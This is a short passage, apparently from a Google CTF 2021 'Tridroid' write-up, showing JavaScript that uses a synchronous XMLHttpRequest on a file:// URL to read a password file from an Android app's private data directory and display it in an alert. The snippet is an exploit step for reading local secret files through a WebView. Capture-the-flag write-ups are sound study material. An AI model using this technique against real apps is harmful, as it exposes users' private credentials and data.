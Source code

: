 ```javascript
const pwd = "/data/data/com.google.ctf.pwn.tridroid/files/password.txt";
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "file://"+pwd, false); // false for synchronous request
xmlHttp.send();
password = xmlHttp.responseText;
alert("password : "+password);
```

![](/assets/posts/2021-07-18-Tridroid-Google-CTF-2021/alert_pwd.png)

